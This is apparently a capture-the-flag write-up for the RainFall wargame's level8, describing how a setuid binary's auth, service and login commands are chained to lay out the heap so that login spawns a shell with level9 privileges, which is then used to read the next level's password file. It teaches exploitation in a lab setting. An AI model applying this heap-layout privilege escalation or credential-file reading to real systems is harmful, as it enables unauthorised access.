



# LEVEL8

## 1. Inspect The Executable

```bash
level8@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
level8@RainFall:~$ ./level8 
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with level9 privileges.

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 

(nil), (nil) 
a
(nil), (nil) 
abc
(nil), (nil) 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
(nil), (nil) 
^C
```

The program **takes no command-line arguments** and **waits for user input** from `stdin` when launched.

At **each iteration**, it **prints two pointers**, which are currently `(nil)`.

To understand which inputs are accepted we need to analyze the code.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048564  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find only the function: `main`.

### Program Behavior

#### main function



The `main` function **runs inside** an **infinite loop** and implements a **simple command-based interface**.
At each iteration, it:
- **Prints the addresses** of two global pointers: **`auth`** and **`service`**.
- **Reads user input** from `stdin`.
- Parses the input to detect one of **four valid commands**:
	- `auth ` *(the space is important)*
	- `reset`
	- `service`
	- `login`


#### auth

**Allocates `4 bytes`** on the heap for the global variable **`auth`**. Then allocated memory is **manually zero-initialized**.

If the provided argument length is less than `30 bytes`, the program copies user-controlled input into `auth` using `strcpy()`.

#### reset

The memory pointed to by **`auth`** is **freed**.

#### service

The program **duplicates** an unknown variable `acStack_89` in `service` using `strdup()`.

#### login

The program reads an **integer located** at **`auth + 0x20`** (32 in decimal).
If it is **non-NULL**, it **executes **`system("/bin/sh")`; otherwise, it prints `"Password"`.

### Try the Program

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
auth 
0x804a028, 0x804a018 
service 
0x804a028, 0x804a038 
```

From this output, we can observe that the **distance between consecutive heap allocations** is **`0x10 bytes`** (`16 bytes`).

This is expected behavior on **x86 32-bit systems**, because of the **small size** of the **allocation** and the allocator **8-byte alignment** and **chunk metadata**.

### 3. Exploit Development

Our goal is to **execute** the `system` call, which means making the value located at **`auth + 0x20`** **non‑NULL**.

To achieve this, we need to **control the heap** layout so that **data ends up at this offset**, and that the heap layout look like this:



So we need a gap of at least **`32 bytes`** between the **start of `auth`** and **some controlled data**.

From our observations, each call to `service` creates a **heap allocation of `16 bytes`**.

Therefore, by calling **`service` twice**, we can create **enough space** on the heap:



## 4. Capture The Flag

```bash

level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ id
uid=2008(level8) gid=2008(level8) euid=2009(level9) egid=100(users) groups=2009(level9),100(users),2008(level8)
$ cat /home/user/level9/.pass
XXX
$ exit
0x804a008, 0x804a028 
```
